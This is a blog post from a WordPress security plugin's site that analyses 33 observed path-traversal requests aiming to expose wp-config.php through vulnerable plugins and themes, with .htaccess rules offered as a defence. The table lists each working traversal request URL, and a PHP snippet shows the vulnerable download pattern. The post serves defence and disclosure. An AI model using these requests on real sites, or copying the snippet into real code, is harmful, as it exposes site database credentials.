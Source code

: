 ```yaml
---
layout: post
title: "Prevent exposure of wp-config.php"
date: 2015-10-24 13:30:00
categories: article
published: true
script: []
inline:
---
```


From July to September in 2015, 33 types of malicious requests to attempt 
exposing the `wp-config.php` via vulnerable plugins and themes had been 
observed on my site. I analyzed all of them to identify if 
[IP Geo Block][IP-Geo-Block] can block them or not.

<!--more-->

Unfortunately, I could not find all the causes of exposure because most of 
them were already removed from the WordPress repository. So I can't say the 
right thing with confidence, but the only 2 of these could be blocked by 
[IP Geo Block 2.1.5 and under][IP-Geo-Block] even if they were from the 
forbidden countries.

In this article, I should clarify how to prevent exposure of `wp-config.php` 
against such malicous requests.

### <span id="1">Analysis of Attack Vectors</span> ###

Before showing the results, I should explain about the description of the 
terms same as in [the previous article][Analysis].

{% highlight text %}
Attack Vector = Type x Path
{% endhighlight %}

where:

- **Type**: The type of vulnerability that an attacker can abuse. For example, 
  XSS, SQLI, LFI and so on. Also it includes some certain parameters which 
  are generally called "signature".
- **Path**: The path to the entrance into WordPress where an attacker can 
  deliver the certain type of vulnerability.

The "**Path**" can be categorized into following : 

<table>
  <thead>
    <tr>
      <th>Abbreviation of Path</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><span class="label label-success">WP</span></td>
      <td><strong>W</strong>ord<strong>P</strong>ress</td>
    </tr>
    <tr>
      <td><span class="label label-danger">PD</span></td>
      <td><strong>P</strong>lugin <strong>D</strong>irect</td>
    </tr>
    <tr>
      <td><span class="label label-warning">N/A</span></td>
      <td><strong>N</strong>ot <strong>A</strong>vailable</td>
    </tr>
  </tbody>
</table>

Here's the table of 33 requests that were attempted to expose `wp-config.php` 
in my site. Most of them were disclosed recently.
[IP Geo Block 2.1.5 and under][IP-Geo-Block] can only protect the **Path** of 
<span class="label label-success">WP</span>, while the 
<span class="label label-danger">PD</span> (and probably 
<span class="label label-warning">N/A</span>) can not because those plugins 
and themes never load the WordPress core.

<div class="table-responsive">
  <table class="table">
    <thead>
      <tr>
        <th>Type</th>
        <th>Path</th>
        <th>Disclosed</th>
        <th>Request</th>
      </tr>
    </thead>
    <tbody>
      <tr><!-- 1 -->
        <td><abbr title="Aribtrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-08-10</td><!-- PD/NG -->
        <td><a href="https://www.exploit-db.com/exploits/37751/" title="WordPress WPTF Image Gallery 1.03 - Aribtrary File Download - Exploits Database">/wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 2 -->
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-16</td><!-- PD/NG https://github.com/wp-plugins/simple-image-manipulator -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=147" title="Vulnerability">/wp-content/plugins/./simple-image-manipulator/controller/download.php?filepath=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 3 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-12</td><!-- PD/NG https://github.com/wp-plugins/candidate-application-form -->
        <td><a href="https://wpvulndb.com/vulnerabilities/8099" title="Candidate Application Form &lt;= 1.0 - Arbitrary File Download">/wp-content/plugins/candidate-application-form/downloadpdffile.php?fileName=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 4 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-09</td><!-- PD/NG https://wordpress.org/plugins/ibs-mappro/developers/ -->
        <td><a href="http://www.securityfocus.com/bid/75698" title="WordPress IBS Mappro Plugin 'download.php' Arbitrary File Download Vulnerability">/wp-content/plugins/ibs-mappro/lib/download.php?file=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 5 -->
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-05</td><!-- PD/NG https://github.com/wp-plugins/image-export -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=135" title="Vulnerabilit">/wp-content/plugins/image-export/download.php?file=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 6 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-05</td><!-- PD/NG https://wordpress.org/plugins/s3bubble-amazon-s3-html-5-video-with-adverts/developers/ -->
        <td><a href="https://www.exploit-db.com/exploits/37494/" title="WordPress S3Bubble Cloud Video With Adverts &amp; Analytics 0.7 - Arbitrary File Download - Exploits Database">/wp-content/plugins/s3bubble-amazon-s3-html-5-video-with-adverts/assets/plugins/ultimate/content/downloader.php?path=../../../../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 7 -->
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-success">WP</span></td>
        <td>2015-07-05</td><!-- OK https://wordpress.org/plugins/wp-ecommerce-shop-styling/developers/ -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=136" title="Vulnerabilit">/wp-content/plugins/wp-ecommerce-shop-styling/includes/download.php?filename=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 8 -->
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-success">WP</span></td>
        <td>2015-07-02</td><!-- OK https://github.com/wp-plugins/wp-swimteam/commit/3652df6c40d493cebb3e19f414edb0898d636bd5 -->
        <td><a href="http://www.vapid.dhs.org/advisory.php?v=134" title="Vulnerabilit">/wp-content/plugins/wp-swimteam/include/user/download.php?file=../../../../../wp-config.php&amp;filename=../../../../../wp-config.php&amp;contenttype=text/html&amp;transient=1&amp;abspath=/usr/share/wordpress</a></td>
      </tr>
      <tr><!-- 9 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-06-10</td><!-- PD/NG https://github.com/wp-plugins/history-collection -->
        <td><a href="https://www.exploit-db.com/exploits/37254/" title="WordPress History Collection &lt;= 1.1.1 - Arbitrary File Download - Exploits Database">/wp-content/plugins/history-collection/download.php?var=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 10 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2015-04-18</td><!-- N/A NG -->
        <td><a href="https://packetstormsecurity.com/files/131502/WordPress-WP-Mon-Arbitrary-File-Download.html" title="WordPress WP-Mon Arbitrary File Download - Packet Storm">/wp-content/plugins/wp-moN/Assets/download.php?type=octet/stream&amp;path=../../../../&amp;name=wp-config.php</a></td>
      </tr>
      <tr><!-- 11 -->
        <td><abbr title="Remote File Disclosure">RFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2015-04-13</td><!-- N/A -->
        <td><a href="https://www.exploit-db.com/exploits/36733/" title="WordPress Plugin 'WP Mobile Edition' 2.2.7 - Remote File Disclosure Vulnerability - Exploits Database">/wp-content/themes/mTheme-Unus/css/css.php?files=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 12 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-03-26</td><!-- PD/NG https://github.com/wp-plugins/aspose-cloud-ebook-generator/commit/1c51e382fed7f3025fbe4469a729fd0aea7a1231 -->
        <td><a href="https://packetstormsecurity.com/files/131040/WordPress-Aspose-Cloud-eBook-Generator-File-Download.html" title="WordPress Aspose Cloud eBook Generator File Download - Packet Storm">/wp-content/plugins/aspose-cloud-ebook-generator/aspose_posts_exporter_download.php?file=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 13 -->
        <td><abbr title="Local File Disclosure">LFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2015-02-16</td><!-- N/A -->
        <td><a href="http://milw00rm.org/exploits/7497" title="Wordpress Justified Image Grid 2.0.1 - Multiple (LFD/XSS) Vulnerabilities">/wp-content/plugins/justified-image-grid/download.php?file=file:///var/www/wp-config.php</a></td>
      </tr>
      <tr><!-- 14 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/markant/download.php?file=../../wp-config.php</a></td>
      </tr>
      <tr><!-- 15 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/MichaelCanthony/download.php?file=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 16 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/felis/download.php?file=../wp-config.php</a></td>
      </tr>
      <tr><!-- 17 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/SMWF/inc/download.php?file=../wp-config.php</a></td>
      </tr>
      <tr><!-- 18 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/TheLoft/download.php?file=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 19 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/trinity/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 20 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/urbancity/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 21 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/yakimabait/download.php?file=./wp-config.php</a></td>
      </tr>
      <tr><!-- 22 -->
        <td><abbr title="Local File Inclusion">LFI</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-07</td><!-- N/A -->
        <td><a href="https://wpvulndb.com/vulnerabilities/7710" title="ChurcHope Theme Local File Inclusion (LFI)">/wp-content/themes/churchope/lib/downloadlink.php?file=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 23 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-06</td><!-- N/A -->
        <td><a href="http://www.homelab.it/index.php/2014/12/06/wordpress-ajax-store-locator-arbitrary-file-download-vulnerability/" title="Wordpress Ajax Store Locator Arbitrary File Download Vulnerability">/wp-content/plugins/ajax-store-locator-wordpress_0/sl_file_download.php?download_file=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 24 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2014-09-09</td><!-- PD/NG https://github.com/wp-plugins/wp-support-plus-responsive-ticket-system/commit/42d48000a489206243beaabfe798d02d411bd330#diff-29 -->
        <td><a href="https://www.exploit-db.com/exploits/34589/" title="WordPress WP Support Plus Responsive Ticket System 2.0 Plugin - Multiple Vulnerabilities - Exploits Database">/wp-content/plugins/wp-support-plus-responsive-ticket-system/includes/admin/downloadAttachment.php?path=../../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 25 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-08</td><!-- N/A -->
        <td><a href="https://www.exploit-db.com/exploits/34578/" title="WordPress Acento Theme view-pdf.php file param - Arbitrary File Download - Exploits Database">/wp-content/themes/acento/includes/view-pdf.php?download=1&amp;file=/path/wp-config.php</a></td>
      </tr>
      <tr><!-- 26 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-08</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/128188/WordPress-Antioch-Arbitrary-File-Download.html" title="WordPress Antioch Arbitrary File Download - Packet Storm">/wp-content/themes/antioch/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 27 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-07</td><!-- N/A -->
        <td><a href="https://cxsecurity.com/issue/WLB-2014090037" title="Wordpress Authentic Theme Arbitrary File Download Vulnerability - CXSecurity.com">/wp-content/themes/authentic/includes/download.php?file=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 28 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-07</td><!-- N/A http://www.organizedthemes.com/themes/epic/ -->
        <td><a href="http://cxsecurity.com/issue/WLB-2014090036" title="Wordpress epic theme Arbitrary File Download Vulnerability - CXSecurity.com">/wp-content/themes/epic/includes/download.php?file=wp-config.php</a></td>
      </tr>
      <tr><!-- 29 -->
        <td><abbr title="Local File Inclusion">LFI</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-03</td><!-- N/A NG -->
        <td><a href="https://blog.sucuri.net/2014/09/slider-revolution-plugin-critical-vulnerability-being-exploited.html" title="Slider Revolution Plugin Critical Vulnerability Being Exploited - Sucuri Blog">/wp-admiN/Admin-ajax.php?action=revslider_show_image&amp;img=../wp-config.php</a></td>
      </tr>
      <tr><!-- 30 -->
        <td><abbr title="Local File Inclusion">LFI</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-04-14</td><!-- N/A -->
        <td><a href="https://www.exploit-db.com/exploits/32861/" title="WordPress Theme LineNity 1.20 - Local File Inclusion - Exploits Database">/wp-content/themes/linenity/functions/download.php?imgurl=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 31 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-08-31</td><!-- N/A -->
        <td><a href="https://packetstormsecurity.com/files/128101/WordPress-NativeChurch-lote27-FR0_theme-acento-File-Download.html" title="WordPress NativeChurch / lote27 / FR0_theme / acento File Download - Packet Storm">/wp-content/themes/lote27/download.php?download=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 32 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2014-08-01</td><!-- https://github.com/wp-plugins/contus-video-gallery/releases -->
        <td><a href="https://wpvulndb.com/plugins/contus-video-gallery" title="WordPress Plugin: contus-video-gallery">/wp-content/plugins/contus-video-gallery/hdflvplayer/download.php?f=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 33 -->
        <td><abbr title="Remote File Disclosure">RFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2011-09-19</td><!-- N/A http://plugins.svn.wordpress.org/filedownload/ -->
        <td><a href="https://www.exploit-db.com/exploits/17858/" title="WordPress Filedownload Plugin 0.1 - download.php Remote File Disclosure Vulnerability - Exploits Database">/wp-content/plugins/filedownload/download.php?path=../../../wp-config.php&amp;type=aplication/pdf</a></td>
      </tr>
    </tbody>
  </table>
</div>

### <span id="2">What's the cause?</span> ###

As you can see, most of them had their own download function like 
`download.php`. Typical OMG <span class="emoji">
![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f631.png)
</span> code in there are like following :

{% highlight php %}
<?php
$file = $_GET['file'];
if (file_exists('../../uploads/xxxx/'.$file)) {
    readfile('../../uploads/xxxx/'.$file);
    exit();
}
?>
{% endhighlight %}

This kind of vulnerability is caused by [Directory Traversal][OWASP] attack.

### <span id="3">How to protect my site against such OMG code?</span> ###

First and foremost, we should consider to make the **Path** transformed from 
<span class="label label-danger">PD</span> and 
<span class="label label-warning">N/A</span> to
<span class="label label-success">WP</span>. If those plugins and themes would 
load WordPres core before they were excuted, [IP Geo Block][IP-Geo-Block] can 
have a chance to block the attacks.

So we should force those plugins and themes to load the `wp-load.php`. To 
achieve this, we can configure our `.htaccess` in the plugins directory to 
rewrite the request using following directives :

{% highlight text %}
# BEGIN IP Geo Block
<IfModule mod_rewrite.c>
RewriteEngine on
RewriteBase /wp-content/plugins/ip-geo-block/
RewriteCond %{REQUEST_URI} !ip-geo-block/rewrite.php$
RewriteRule ^.*\.php$ rewrite.php [L]
</IfModule>
# END IP Geo Block
{% endhighlight %}

The absolute path of `/wp-content/plugins/` should be changed according to 
your site configuration. And here's the example in themes directory :

{% highlight text %}
# BEGIN IP Geo Block
<IfModule mod_rewrite.c>
RewriteEngine on
RewriteBase /wp-content/plugins/ip-geo-block/
RewriteRule ^.*\.php$ rewrite.php [L]
</IfModule>
# END IP Geo Block
{% endhighlight %}

Those will redirect a request, which is pointed to 
`/wp-content/plugins/.../*.php` or to 
`/wp-content/themes/.../*.php`, to the [rewrite.php][WritePHP] in 
[IP Geo Block][IP-Geo-Block] in order to load `wp-load.php` and then it will 
be validated by country code or WP-ZEP <span class="emoji">
![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f4aa.png)
</span>.

Another consideration for **Type** in **Attack Vector** is that 
[IP Geo Block][IP-Geo-Block] should filter out the "**Malicious signature**" 
such as `wp-config.php` or `passwd` to defence against attacks from the 
permitted countries.

I'll provide you this functionarity in the next release (may be 2.2.0) !! 
<span class="emoji">
![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f63c.png)
</span>

[IP-Geo-Block]: https://wordpress.org/plugins/ip-geo-block/ "WordPress › IP Geo Block « WordPress Plugins"
[Analysis]:     {{ "/article/analysis-attack-vector.html" | prepend: site.baseurl }} "Analysis of Attack Vector against WP Plugins"
[OWASP]:        https://www.owasp.org/index.php/Path_Traversal "Path Traversal - OWASP"
[WritePHP]:     https://github.com/tokkonopapa/WordPress-IP-Geo-Block/blob/master/ip-geo-block/rewrite.php "WordPress-IP-Geo-Block/rewrite.php at master - tokkonopapa/WordPress-IP-Geo-Block"
